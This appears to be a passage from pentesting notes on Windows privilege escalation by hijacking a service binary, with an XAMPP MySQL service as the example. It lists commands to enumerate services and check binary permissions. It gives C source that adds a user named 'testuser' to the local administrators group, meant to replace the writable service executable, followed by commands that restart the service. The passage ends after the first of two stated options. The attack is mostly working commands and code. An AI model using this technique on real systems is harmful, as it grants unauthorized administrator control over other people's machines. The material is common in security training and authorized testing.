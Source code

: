 **CMD one-liner**
```dos
for /f "tokens=2 delims=:" %s in ('sc query state^= all ^| findstr /R "^SERVICE_NAME:"') do @echo %s & sc qc %s | find "BINARY_PATH_NAME"
```

**Powershell**
```powershell
Get-CimInstance -ClassName win32_service | Select Name,State,PathName
```

{{< hint style=notes >}}
**Note**: When using network logons like WinRM or bind shells, non-admin users get “permission denied” errors with `Get-CimInstance` when querying services. Interactive logons (e.g., RDP) avoid this issue.
{{< /hint >}}

Focus on services installed by users and enumerate the permissions:

```powershell
icacls "C:\xampp\mysql\bin\mysqld.exe"

# F   Full access
# M   Modify access
# RX  Read and execute access
# R   Read-only access
# W   Write-only access
```

If we can modify the binary, we can replace it. So, create a binary and compile it:

```C
#include <stdlib.h>
int main ()
  {
    int i;
    i = system ("net user testuser somepassword /add");
    i = system ("net localgroup administrators testuser /add");
  }
```

{{< hint style=notes >}}
**Note**: Create a backup of the original binary service (C:\xampp\mysql\bin\mysqld.exe) before proceeding.
{{< /hint >}}

Now there are two way:

1. Restart the service:

    ```powershell
    # 1. with net
    net stop mysql
    net start mysql

    # 2. Restart-Service
    Restart-Service -Name "mysql"
    ```
